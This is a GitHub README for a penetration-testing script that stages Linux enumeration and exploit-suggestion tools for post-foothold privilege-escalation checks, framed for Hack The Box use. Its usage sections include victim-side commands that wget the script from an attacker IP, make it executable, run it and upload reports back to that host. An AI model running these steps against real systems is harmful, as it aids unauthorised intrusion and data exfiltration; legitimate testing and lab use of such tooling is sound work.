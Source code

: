 # Rotten Roommate
*An enumeration script for Penetration Testing*

![GitHub](https://img.shields.io/github/license/security-pimp/Rotten-Roommate.svg?style=flat-square)
![Github language](https://img.shields.io/github/languages/top/security-pimp/Rotten-Roommate.svg?style=flat-square)
![GitHub issues](https://img.shields.io/github/issues/security-pimp/Rotten-Roommate.svg?style=flat-square)
![Github contributors](https://img.shields.io/github/contributors/security-pimp/Rotten-Roommate.svg?style=flat-square)

This script is designed for use in situations where you do not have internet access on a Linux host and would like to run enumeration and exploit suggestion scripts, such as Hack The Box. I find myself running a similar set of scripts when I get an initial foothold on a Linux box, and this script helps automate the process of downloading the latest version of each enumeration script, making it executable, and running it, as well as sending output to a file for later review. It also has a builtin web server to host the tools and upload reports back to the host machine.

**Pull requests/suggestions welcome!**

![](screenshot01.png)

### Features
This is a fork of the project found here:
https://github.com/SolomonSklash/htbenum

* 5 different enumeration scripts, including:
    * [linux-smart-enumeration](https://github.com/diego-treitos/linux-smart-enumeration/)
    * [LinEnum](https://github.com/rebootuser/LinEnum/)
    * [linuxprivchecker.py](https://github.com/sleventyeleven/linuxprivchecker/)
    * [uptux](https://github.com/initstring/uptux)
    * [SUID3NUM](https://github.com/Anon-Exploiter/SUID3NUM)
* 2 different exploit suggestion tools, including:
    * [linux-soft-exploit-suggester](https://github.com/belane/linux-soft-exploit-suggester)
    * [LES: Linux privilege escalation auditing tool](https://github.com/mzet-/linux-exploit-suggester)
* Builtin webserver for hosting tools and uploading completed reports
* Automatic tool download and update feature
* Custom directory option, for when you know you have access to a specific directory (default is /tmp)
* Interactive menu lets you choose whether to run only enumeration, only expoit suggestion, or both
* Checks for Python 2 and 3 and lets you know which scripts will be skipped if Python is missing

### Usage
```
./roommate.sh [-u] -i IP -p port [-o directory] [-w] [-r]

Example:
         Host machine: root@kali:~/htbenum# ./roommate.sh -u
         Host machine: root@kali:~/htbenum# ./roommate.sh -i 10.10.14.1 -p 80 -w
         Victim machine: www-data@victim:/tmp$ wget http://10.10.14.1:80/roommate.sh
         Victim machine: www-data@victim:/tmp$ chmod +x ./roommate.sh
         Victim machine: www-data@victim:/tmp$ ./roommate.sh -i 10.10.14.1 -p 80 -r

 Parameters:
         -h - View help and usage.
         -i IP - IP address of the listening web server used for upload and download.
         -p port - TCP port of the listening web server used for upload and download.
         -o directory - Custom download and report creation directory (default is /tmp).
         -w - Start builtin web server for downloading files and uploading reports.
         -u - Update to the latest versions of each tool, overwriting any existing versions.
         -r - Upload reports back to the host machine web server (must support PUT requests).
```


To use htbenum, clone the repo and run the script with the `update` parameter on your local machine. This will download and update all the needed scripts from the internet (Github) and place them in the same directory as `htbenum.sh`:
```
root@kali:~# git clone https://github.com/security-pimp/Rotten-Roommate roommate
root@kali:~# cd roommate
root@kali:~/roommate#  ./roommate.sh -u

		01110010 01101111 01110100 01110100 01100101 01101110  01110010 01101111 01101111 01101101 01101101 01100001 01110100 01100101 

					    >======>                  >=>     >=>                                            
					    >=>    >=>                >=>     >=>                                            
					    >=>    >=>      >=>     >=>>==> >=>>==>   >==>    >==>>==>                       
					    >> >==>       >=>  >=>    >=>     >=>   >>   >=>   >=>  >=>                      
					    >=>  >=>     >=>    >=>   >=>     >=>   >>===>>=>  >=>  >=>                      
					    >=>    >=>    >=>  >=>    >=>     >=>   >>         >=>  >=>                      
					    >=>      >=>    >=>        >=>     >=>   >====>   >==>  >=>                      
								                                                             
				>======>                                                                     >=>             
				>=>    >=>                                                                   >=>             
				>=>    >=>      >=>        >=>     >===>>=>>==>  >===>>=>>==>     >=> >=>  >=>>==>   >==>    
				>> >==>       >=>  >=>   >=>  >=>   >=>  >>  >=>  >=>  >>  >=>  >=>   >=>    >=>   >>   >=>  
				>=>  >=>     >=>    >=> >=>    >=>  >=>  >>  >=>  >=>  >>  >=> >=>    >=>    >=>   >>===>>=> 
				>=>    >=>    >=>  >=>   >=>  >=>   >=>  >>  >=>  >=>  >>  >=>  >=>   >=>    >=>   >>        
				>=>      >=>    >=>        >=>     >==>  >>  >=> >==>  >>  >=>   >==>>>==>    >=>   >====>   

		01110010 01101111 01110100 01110100 01100101 01101110  01110010 01101111 01101111 01101101 01101101 01100001 01110100 01100101
01000001 01101110  01000101 01101110 01110101 01101101 01100101 01110010 01100001 01110100 01101001 01101111 01101110  01010100 01101111 01101111 01101100

[i] Updating all tools...
2019-11-25 17:54:55 URL:https://raw.githubusercontent.com/diego-treitos/linux-smart-enumeration/master/lse.sh [31859/31859] -> "lse.sh" [1]
2019-11-25 17:54:55 URL:https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh [46476/46476] -> "linenum.sh" [1]
2019-11-25 17:54:56 URL:https://raw.githubusercontent.com/sleventyeleven/linuxprivchecker/master/linuxprivchecker.py [25304/25304] -> "linuxprivchecker.py" [1]
2019-11-25 17:54:56 URL:https://raw.githubusercontent.com/initstring/uptux/master/uptux.py [29853/29853] -> "uptux.py" [1]
2019-11-25 17:54:56 URL:https://raw.githubusercontent.com/Anon-Exploiter/SUID3NUM/master/suid3num.py [12614/12614] -> "suid3num.py" [1]
2019-11-25 17:54:57 URL:https://raw.githubusercontent.com/belane/linux-soft-exploit-suggester/master/linux-soft-exploit-suggester.py [13886/13886] -> "les-soft.py" [1]
2019-11-25 17:54:58 URL:https://raw.githubusercontent.com/offensive-security/exploit-database/master/files_exploits.csv [5669905/5669905] -> "files_exploits.csv" [1]
2019-11-25 17:54:58 URL:https://raw.githubusercontent.com/mzet-/linux-exploit-suggester/master/linux-exploit-suggester.sh [82214/82214] -> "les.sh" [1]
[i] Update complete!
root@kali:~/roommate#  
```

Then, start the builtin web server to host the tools and receive the completed reports. The server requires Python 3. You can use you own web server to host the tools, but it will need to support PUT requests for the report uploads.

```
root@kali:~/roommate# ./roommate.sh -i 10.10.14.1 -p 80 -w
```

Finally, upload the `roommate.sh` script to your target machine, make it executable, and run it with the IP and port of your host machine, with an optional directory for downloading files and writing report output. You can also optionally upload the reports back to the host machine. For example:
```
www-data@htb:/tmp$ wget http://10.10.99.100/htbenum.sh -O /tmp/roommate.sh
www-data@htb:/tmp$ chmod +x ./roommate.sh
www-data@htb:/tmp$ ./roommate.sh -i 10.10.14.1 -p 80 -r
```
Each tool will send its output to a report file in the same directory as the `roommate.sh` script, or whatever directory is specified by the `-d` parameter.
